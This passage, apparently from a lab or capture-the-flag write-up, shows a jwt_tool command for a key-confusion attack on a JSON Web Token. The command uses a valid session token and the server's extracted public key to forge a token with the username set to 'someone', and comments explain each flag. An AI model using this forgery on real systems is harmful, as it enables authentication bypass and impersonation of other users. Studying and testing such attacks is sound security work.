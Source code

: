 <figure><img src="../../.gitbook/assets/Untitled 12 (5).png" alt=""><figcaption></figcaption></figure>

### Generating Token using jwt\_tool

Now, its time to generate a token using `jwt_tool`. Use the following command to generate a token:

```bash
jwt_tool $(cat sessionToken) -I -pc username -pv someone -X k -pk ./publickey

// Here 
// $(cat sessionToken) : The session token that you got from a valid login
// -I : Inject
// -pc : variable to inject
// -pv : value of the variable to be injected
// -X : Exploit type
// k : Key-Confusion attack
// -pk : public key that we have extracted from the token
```
